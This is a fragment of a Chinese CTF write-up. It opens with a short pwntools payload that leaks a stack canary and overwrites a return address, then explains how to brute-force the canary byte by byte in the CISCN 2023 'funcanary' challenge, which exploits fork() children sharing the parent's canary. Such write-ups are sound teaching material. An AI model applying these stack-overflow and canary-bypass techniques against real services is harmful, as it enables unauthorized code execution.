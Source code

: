 ```plain
leak('canary ',canary)
pl='a'*0x28+p64(canary)+'a'*0x8+p64(0x401245)
sl(pl)
itr()
```

## CISCN 2023 funcanary ( 爆破 canary )

### 原理

每次进程重启后 Canary 不同，但是同一个进程中的不同线程的 Cannary 是相同的  
因为 fork 函数会直接拷贝父进程的内存，所以 fork 函数创建的子进程中的 canary 也是相同的。  
最低位为 0x00，之后逐次爆破，如果 canary 爆破不成功，则程序崩溃。  
爆破成功则程序进行下面的逻辑。  
我们可以利用这样的特点，彻底逐个字节将 Canary 爆破出来。

### 思路

[![](assets/1706146504-87b75cb2ba742dd77e02ead5fe30913d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240121233945-4d620c8c-b873-1.png)  
这里有 fork 函数

[![](assets/1706146504-d28ef8ff655a97ddb357b4f2cce60545.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240121233952-5169b258-b873-1.png)  
里面就是个栈溢出
